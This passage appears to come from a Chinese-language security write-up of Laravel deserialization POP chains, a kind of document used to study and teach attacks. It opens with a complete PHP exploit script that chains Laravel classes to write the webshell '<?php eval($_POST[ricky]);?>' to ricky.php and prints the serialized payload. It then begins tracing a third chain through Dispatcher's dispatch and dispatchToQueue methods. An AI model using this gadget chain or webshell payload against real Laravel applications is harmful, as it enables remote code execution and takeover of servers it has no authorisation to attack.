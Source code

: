 ```
namespace Illuminate\Auth `{`
    class RequestGuard `{`
        protected $user;
        protected $callback;
        protected $request = 'ricky.php';
        protected $provider = '&lt;?php eval($_POST[ricky]);?&gt;';
        public function __construct($callback) `{`
            $this-&gt;callback = $callback;
        `}`
    `}`
`}`

namespace `{`

    use Illuminate\Auth\RequestGuard;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Routing\PendingResourceRegistration;

    $c = new RequestGuard([new Filesystem(), 'append']);
    $b = new ChannelManager('call_user_func', [$c, 'user']);
    $a = new PendingResourceRegistration($b, 'ricky', 'ricky', 'ricky');
    echo urlencode(serialize($a));
`}`
```



## POP链3

入口类: `Illuminate\Broadcasting\pendiongBroadcast`

最后RCE调用类：`Illuminate\Bus\Dispatcher`

一开始使用 `__destruct()` 函数直接跟进到 dispatch 方法

```
public function dispatch($command)
    `{`
        if ($this-&gt;queueResolver &amp;&amp; $this-&gt;commandShouldBeQueued($command)) `{`
            return $this-&gt;dispatchToQueue($command);
        `}`

        return $this-&gt;dispatchNow($command);
    `}`
```

跟进一下`dispatchToQueue()`方法

```
public function dispatchToQueue($command)
    `{`
        $connection = $command-&gt;connection ?? null;

        $queue = call_user_func($this-&gt;queueResolver, $connection);

        if (! $queue instanceof Queue) `{`
            throw new RuntimeException('Queue resolver did not return a Queue implementation.');
        `}`

        if (method_exists($command, 'queue')) `{`
            return $command-&gt;queue($queue, $command);
        `}`

        return $this-&gt;pushCommandToQueue($queue, $command);
    `}`
```